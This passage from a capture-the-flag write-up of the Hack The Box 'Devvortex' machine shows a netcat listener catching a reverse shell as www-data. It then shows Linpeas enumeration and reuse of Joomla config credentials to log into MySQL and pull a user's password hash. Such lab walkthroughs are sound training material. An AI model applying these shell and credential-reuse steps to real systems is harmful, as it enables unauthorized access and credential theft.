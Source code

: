 ![rev-shell](/assets/images/machines/htb/devvortex/rev-shell.png)

Now, before we hit save and close let's start our netcat listener on our host. Once that is done, we can hit save and close. We now should see a reverse shell comeback from the site!

```bash
h0ax@h0ax-vm:~/HTB/boxes/easy/devvortex$ nc -lvnp 9999
Listening on 0.0.0.0 9999
Connection received on 10.10.11.242 35770
bash: cannot set terminal process group (861): Inappropriate ioctl for device
bash: no job control in this shell
www-data@devvortex:~/dev.devvortex.htb/administrator$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@devvortex:~/dev.devvortex.htb/administrator$ whoami
whoami
www-data
www-data@devvortex:~/dev.devvortex.htb/administrator$
```

## Privlege Escalation to Logan


Once on the target, I looked to see what users were in the __/home__ directory and there was only one user, Logan. The first flag is in that user's home directory and only that user has permissions to read the file.

At this point, I uploaded Linpeas onto the target and ran it to see what I could find. The first thing that jumped out was the MYSQL database running on the local port 3306. This db was mentioned in the config files for Joomla. We can use Lewis' credentials actually to log into this database and pull a hash for the Logan user.

```bash
www-data@devvortex:~/dev.devvortex.htb/administrator$ mysql -u lewis -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 113
Server version: 8.0.35-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> use joomla;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
```